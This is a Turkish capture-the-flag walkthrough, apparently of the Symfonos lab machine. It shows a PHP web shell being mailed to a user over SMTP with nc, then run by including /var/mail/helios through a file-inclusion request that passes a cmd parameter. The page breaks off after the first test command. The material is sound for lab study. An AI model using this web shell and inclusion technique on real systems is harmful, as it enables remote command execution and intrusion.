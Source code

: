 ```terminal
1 results.

1 queries in 1 seconds (1.0 queries / sec)
```
**Helios** kullanıcısına mail servisinden zararlı kodun bulunduğu bir mail gönderilir. LFI ile mail okunarak zararlı kod çalıştırılır. 

İlk olarak **nc** veya **telnet** ile smtp servisine bağlanılır.
```terminal
nc 192.168.56.114 25
```
    **En önemli SMTP komutları aşağıdaki gibidir.

    HELP: Komutlar listelenir.
    HELO: SMTP sunucusu ile SMTP iletişimi başlatılır.
    EHLO: Genişletilmiş SMTP iletişimi için kullanılır.
    AUTH: İstemcinin kimlik doğrulaması için kullanılır.
    MAIL FROM: E-posta göndericisi belirtilir.
    RCPT TO: E-posta alıcısı belirtilir.
    DATA: E-postanın içeriği belirtilir. E-posta içeriği, “.” ifadesi içeren satır ile tamamlanmış olur.
    SUBJECT: E-postanın konusu belirtilir.
    QUIT: Oturum sonlandırılır.
    VRFY: E-posta kutusu alıcısı doğrulanır.
    EXPN: E-posta listesi doğrulanır.
    STARTTLS: SMTP iletişimi TLS üzerinden başlatılır.
    RSET: E-posta iletişimi kesilir.

Yukarıdaki komutlar çerçevesinde root kullanıcısından helios kullanıcısına cmd parametresi ile gönderilen komutun çalıştırılabileceği php kodu gönderilir.
```php
<?php echo system($_REQUEST["cmd"]); ?>
```

```terminal
─[barcode@parrot]─[~]$ nc 192.168.56.114 25
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
helo symfonos@localdomain
250 symfonos.localdomain
mail from:root@symfonos.localdomain
250 2.1.0 Ok
rcpt to:helios@symfonos.localdomain
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php echo system($_REQUEST["cmd"]); ?>
.
250 2.0.0 Ok: queued as D547140698
```
Tarayıcından */var/mail/* dizini altında helios kullanıcısının maillerinin tutulduğu helios dosyası okunarak zararlı kod çalıştırılır. İlk olarak ***cmd=ls -l*** test edilir.

```html
../ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=ls -l
```
